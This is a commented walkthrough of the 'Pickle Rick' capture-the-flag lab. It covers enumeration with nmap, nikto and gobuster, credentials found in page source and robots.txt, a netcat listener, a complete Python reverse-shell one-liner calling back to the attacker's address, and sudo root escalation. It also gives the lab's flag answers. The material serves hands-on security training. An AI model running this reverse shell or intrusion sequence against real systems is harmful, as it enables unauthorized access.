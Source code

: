 #Need to hack the device to find the three secret elements

#first connect to de VPN with sudo openvpn filename.ovpn
#test de connection with ping 
#If you had a response, go to the browser and put the IP
#You'll find a a message from Rick, save it and look inside de HTML code, it has the username un a comment (R1ckRul3s)
#Do a nmap using nmap -sC -sV -oN nmap/initial 'ipaddress' (don't forget to create a directory named nmap before execute the command)
#Look the document inside nmap directory, you'll see that the device has the 20 and 80 port open
#use nikto -h //http:'ipaddress' | tee nikto.log to scan the server
#After nikto command, you'll find a robot.txt that isn't doing anything. If you put the 'ipaddress'/robots.txt you'll see a messagge (Wubbalubbadubdub)
#use the command gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt -x php,sh,txt,cgi,html,js,css,py to looking for other files in the website
#after gobuster command appears login.php, so put in the browser 'ipaddress'/login.php and put in the usarname R1ckRul3s and password Wubbalubbadubdub
#type grep . Sup3rS3cretPickl3Ingred.txt in the command line and you'll find the first ingredient mr. meeseek hair
#Then, look up for the source page (right click+view page source) and it's a code in a comment.
#Copy the code and put into the terminal with this line: echo 'code' | base64 -d (as many times you need to decode the messagge), but this is a rabbit hole
#run the commandin the terminal: nc -lnvp 9999 to wait for a connection.
#run the command ip addr show tun0 to get YOURIPADDRESS
#inside the webpage, use the reverse shell cheat sheet for python: python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOURIPADDRESS",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
#type sudo bash to get a root access
#Take a look into the home root directory (first cd and then ls) and you'll find a 3rd.txt when you open you got the 3rd ingredient that is fleeb juice
#Then, go to the rick directory (cd /home/rick) and run the command cat * to see everything and you'll find the second ingredient that is 1 jerry tear
